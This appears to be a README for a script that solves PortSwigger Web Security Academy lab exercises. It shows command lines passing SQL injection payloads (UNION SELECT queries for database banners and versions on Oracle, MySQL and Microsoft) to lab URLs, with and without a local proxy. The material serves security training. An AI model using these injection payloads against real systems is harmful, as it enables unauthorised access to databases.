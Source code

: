 # How to run script.py

## The labs that script.py is valid are the following:

### 1. SQL injection attack, querying the database type and version on Oracle

No proxy:
- `python3 script.py -u "https://0a4b003803f44a75c13da5e2009400df.web-security-academy.net" -c "'UNION SELECT banner,NULL FROM v\$version--"`

Proxy:
- `python3 script.py -u "https://0a4b003803f44a75c13da5e2009400df.web-security-academy.net" -c "'UNION SELECT banner,NULL FROM v\$version--" -p 127.0.0.1:8080`

### 2. SQL injection attack, querying the database type and version on MySQL and Microsoft

No proxy:
- `python3 script.py -u "https://0a4b003803f44a75c13da5e2009400df.web-security-academy.net" -c "'UNION SELECT @@version,NULL\#"`

Proxy:
- `python3 script.py -u "https://0a4b003803f44a75c13da5e2009400df.web-security-academy.net" -c "'UNION SELECT @@version,NULL\#" -p 127.0.0.1:8080`
